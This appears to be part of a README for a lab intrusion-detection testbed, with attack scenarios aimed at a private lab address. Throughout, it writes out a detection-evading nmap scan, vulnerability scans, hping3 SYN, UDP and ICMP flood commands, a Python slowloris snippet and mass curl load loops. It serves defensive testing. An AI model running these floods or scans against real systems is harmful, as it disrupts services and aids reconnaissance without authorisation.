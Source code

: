 ### Scenario 1: Stealth Port Scan
```bash
# Slow scan to avoid detection
nmap -sS -T1 -p 1-65535 192.168.100.10
```

### Scenario 2: Service Enumeration
```bash
# Service version detection
nmap -sV -sC 192.168.100.10

# Script scan
nmap --script=vuln 192.168.100.10
```

### Scenario 3: DDoS Simulation
```bash
# Multiple attack vectors
hping3 -S -p 80 --flood 192.168.100.10 &
hping3 -2 -p 53 --flood 192.168.100.10 &
hping3 -1 --flood 192.168.100.10 &
```

### Scenario 4: Application Layer Attacks
```bash
# HTTP slowloris
python3 -c "
import socket
sockets = []
for i in range(100):
    s = socket.socket()
    s.connect(('192.168.100.10', 5000))
    s.send(b'GET / HTTP/1.1\r\n')
    sockets.append(s)
"
```

## 📈 Performance Testing

### Load Testing
```bash
# High-volume traffic
for i in {1..1000}; do
    curl -s http://192.168.100.10:5000 > /dev/null &
done
```

### Stress Testing
```bash
# Multiple attack types simultaneously
python3 attacker_test_suite.py &
nmap -A -T4 192.168.100.10 &
hping3 -S -p 80 --flood 192.168.100.10 &
```
